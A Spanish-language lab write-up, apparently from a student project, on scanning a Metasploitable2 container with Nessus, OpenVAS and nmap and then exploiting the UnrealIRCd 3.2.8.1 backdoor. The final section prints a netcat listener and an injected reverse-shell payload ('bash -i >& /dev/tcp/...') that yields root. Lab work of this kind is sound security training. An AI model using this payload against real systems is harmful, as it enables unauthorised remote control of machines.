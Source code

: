# Escaneo de vulnerabilidades

Como ya aseguramos nuestro servidor en las anteriores actividades de este proyecto, ni Nessus ni OpenVAS detectan vulnerabilidades. Simplemente nos informan de que los certificados utilzados en nuestro servicio web son autofirmados. 

Así que procederemos a la deteccción y explotación de vulnerabilidades directamente en Metasploitable2. A continuación se muestran imágenes del escaneo a este contenedor, para ello simplemente hicimos un `docker run "metasploitable2"` definiendo la red de docker en la que queriamos que se crease con un `--network` para que tanto Nessus como OpenVAS pudiesen contactar con el servidor vulnerable.

![nessus](img/1.png)
![openvas](img/2.png)

Los resultados son catastróficos como era de esperar, se detectan con nessus un total de 65 vulnerabilidades. Uno de ellos es el password de VNC, "password", es decir demasiado fácil. Sin embargo explotarlos a través de docker puede ser un poco complicado, lo suyo sería tener la máquina virtual a la que hace referencia esta [guía de explotación](https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/), [enlace a la MV](https://sourceforge.net/projects/metasploitable/).

Podemos adueñarnos del sistema de practicamente cualquier forma, desde usuarios privilegiados de las bases de datos hasta con formularios web php.

A continuación realizaremos una pequeña demostración de la toma de esta máquina a través de un servicio IRC expuesto.

## Reconocimiento

Para acabar de utilizar las herramientas propuestras voy a realizar la primera fase de reconocimiento de servicios con nmap:

![nmap](img/3.png)

## Explotación de la vulnerabilidad

Utilizando el exploit de [UnrealIRCd 3.2.8.1](https://www.exploit-db.com/exploits/16922), por elegir alguno. Que básicamente consiste en, abrir una reverse shell `nc -lvp 8080`, establecer una conexión y enviarle un "*AB;* `bash -i >& /dev/tcp/10.0.0.22/8080 0>&1` *\n*".

Boom! root.

![metasploit](img/4.png)